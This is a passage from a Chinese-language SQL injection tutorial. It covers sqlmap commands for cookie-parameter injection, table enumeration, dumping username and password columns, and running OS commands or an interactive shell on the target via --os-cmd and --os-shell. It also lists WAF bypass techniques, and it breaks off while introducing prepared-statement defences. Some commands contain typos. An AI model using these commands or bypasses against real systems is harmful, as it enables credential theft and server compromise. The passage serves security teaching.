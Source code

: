 ```
sqlmap.py -u ““–cookies “id=1″  –dbs –level 2
```

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie里面的参数，当>=3的时候将检查User-agent和Referer。可以通过burpsuite等工具获取当前的cookie值，然后进行注入：

```
sqlmap.py -u 注入点URL --cookie"id=xx" --level 3

sqlmap.py -u url --cookie "id=xx"--level 3 --tables(猜表名)

sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 --coiumns

sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 -C username，password --dump
```

###### 14.执行shell命令

```
sqlmap.py -u “url” –os-cmd=”netuser” /*执行net user命令*/

sqlmap.py -u “url” –os-shell /*系统交互的shell*/
```

###### 15.延时注入时间设置

```
sqlmap –dbs -u"url" –delay 0.5 /*延时0.5秒*/
```

#### 七、SQL注入的绕过方法

##### 1.大小写绕过

##### 2.替换关键字绕过

###### 2.1 关键词双写

###### 2.2 同价词替换

WAF主要针对一些特殊的关键词进行检测，可以使用具有相似功能的符号或者函数来替换，常见的用法：

- 不能使用and或or时，使用 && 或 || 代替
- 不能使用 = 时，使用 < > 代替
- 不能使用空格时，使用%20 %09 %0a %0b %0c %0d %a0 代替空格

###### 2.3 特殊字符拼接

##### 3.使用sqlmap绕过waf

sqlmap发出的数据包再默认情况下不会被处理，可能会被服务器的拦截规则“pass”,这种情况可以考虑使用参数”tamper”。

#### 八、防御方法

##### 1.使用预编译语句

SQL 注入一般都是 SQL 语句拼接造成的，因为这个过程导致 SQL 语句结构发生了改变,如果我们能把 SQL 语句的结构固定下来，仅填充可变的数据部分，就可以避免 SQL 注入。这个预先定义的 SQL 语句叫预编译语句(Prepared Statement)，这种査询方法也叫参数化查询(Parameterized Query)。不同的语言都有相应的预编译语句的方法。下面是在PHP中使用预编译语句的示例:

